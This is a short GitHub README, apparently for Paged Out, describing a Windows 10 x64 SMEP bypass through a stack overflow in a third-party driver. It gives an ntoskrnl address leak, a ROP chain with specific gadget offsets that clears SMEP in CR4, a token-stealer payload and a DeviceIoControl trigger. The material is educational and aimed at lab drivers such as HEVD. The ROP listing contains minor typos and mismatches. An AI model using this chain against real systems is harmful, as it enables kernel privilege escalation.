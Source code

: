 # WindowsSMEPBypass
Example of SMEP bypass in Windows 10 1709 x64 for Paged Out.

# Brief description

Vulnerability: Stack based overflow in a third-party driver.

1. **Leak ntoskrnl address**
    - *NtQuerySystemInformation*
2. **Setup payload**
    - *ROP Chain*: We use only gadgets in ntoskrnl. Exactly, ntoskrnl *10.0.17763.678*
						
						pop rcx (1)
						ptr_userland_memory
						nt!KiSaveInitialProcessorControlState
						mov rax, dword [rcx+0x18] (2)
						pop rcx (1)
						0xFFFFFFFFFFEFFFFF
						and ecx, eax (3)
						mov cr4, ecx (4)
						OFFSET TOKEN STEALER
						mov cr4. ecx (4)
						ret (5)
						
						
		
		
	(1) ntoskrnlBase + 0xdb8f = **nt!AuthzBasepRemoveSecurityAttributeValueFromLists**+0x7b
	
	(2) ntoskrnlBase + 0x2bb1f = **nt!MiGetSubsectionDriverProtos**+0xb
	
	(3) ntoskrnlBase + 0x0a3dc3 = **nt!MiGetPteAddress**+0xf
	
	(4) ntoskrnlBase + 0x76a02 = **nt!KiFlushCurrentTbWorker**+0x12
	
    - *Payload*: We want to elevate our privileges, so our payload is Token Stealer. It is in payload.asm
3. **Trigger vuln**
    - *DeviceIoControl*

# Important

You need a vulnerable driver to test this. You can make your own or find some vulnerable. You can check HEVD(Hacksys Extreme Vulnerable Driver).
